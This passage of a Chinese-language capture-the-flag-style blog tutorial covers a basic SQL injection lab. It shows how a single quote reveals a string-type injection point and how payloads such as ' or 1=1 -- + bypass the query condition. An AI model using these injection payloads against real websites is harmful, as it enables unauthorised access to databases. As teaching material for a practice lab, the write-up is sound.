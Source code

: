 ```cobol
即使第一个查询没有返回结果，仍然可以返回第二个查询的结果。
```

这里就是我们最基本SQL注入的想法 通过第一个查询不到 然后和第二个查询 形成集合返回给我们

就只会返回第二个 因为第一个查找不到

所以我们可以开始做这道题目

```cobol
?id=1'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/a081c0877c343743d490db56baf006e4.png" alt="" style="max-height:376px; box-sizing:content-box;" />


来判断是什么类型的 发现是字符型 因为一个单引号报错

```cobol
near ''1'' LIMIT 0,1' at line 1
这里会蒙

其实报错报错信息是
'1'' LIMIT 0,1
所以我们能够发现是字符型注入
```

我们先看看能不能构造万能密码

```cobol
?id=1' or 1=1 -- + 发现是可以的

select * from users where id ='1'or 1=1-- +'
 
 
真 or 真
 
 
就算我们使用假的也可以
 
select * from users where id ='-1'or 1=1-- +'


假 or 真
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/7c21ecaf1d8ffab16ee34b0819f5a889.png" alt="" style="max-height:282px; box-sizing:content-box;" />


这个在数据库里面是怎么查询的呢



<img src="https://i-blog.csdnimg.cn/blog_migrate/1d6ae287e067840708f39f29b688be1e.png" alt="" style="max-height:559px; box-sizing:content-box;" />
